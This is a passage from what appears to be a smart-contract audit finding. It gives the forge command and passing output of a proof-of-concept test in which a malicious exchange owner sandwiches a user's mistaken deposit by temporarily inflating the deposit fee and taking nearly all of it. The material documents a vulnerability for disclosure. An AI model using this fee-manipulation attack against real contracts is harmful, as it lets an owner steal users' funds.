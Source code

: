 `forge test --match-test testMaliciousOwnerFrontrunUsers  --fork-url http://127.0.0.1:8545 -vv --via-ir`
Output is:
```
Running 1 test for test/Counter.t.sol:PoC
[32m[PASS][0m testMaliciousOwnerFrontrunUsers() (gas: 276125)
Logs:
  ------Setting up accounts------
  Bob's ether balance is: 5000000000000000000 wei
  Alice's ether balance is: 5000000000000000000 wei
  Default deposit ether balance is: 328293880694913421416 wei
  Ether balance of malicious exchange owner is: 0 wei
  ------Bob tries to deposit Ether to ExchangeV3 but mistakenly has 'amount' parameter lower than msg.value sent------
  ------Malicious owner spots sandwich opportunity and front-runs Bob's deposit------
  Deposit fee temporarily set to difference between Bob's msg.value and 'amount' (4999999999999999999 wei)
  Exchange owner collects temporarily inflated fee and withdraws it
  Exchange owner's ether balance is now: 4999999999999999999 wei
  Bob's ether balance is now: 0 wei with a deposit value of: 1 wei
  Setting deposit fee back to 0 wei, completing sandwich attack on Bob
  ------Alice deposits same Ether amount as Bob, but correctly sets 'amount' parameter and msg.value equal------
  ------Malicious owner has no sandwich opportunity and lets Alice deposit as normal------
  Alice's ether balance is now: 0 wei with a deposit value of: 5000000000000000000 wei

Test result: [32mok[0m. [32m1[0m passed; [31m0[0m failed; [33m0[0m skipped; finished in 3.19ms
 
Ran 1 test suites: [32m1[0m tests passed, [31m0[0m failed, [33m0[0m skipped (1 total tests)
```
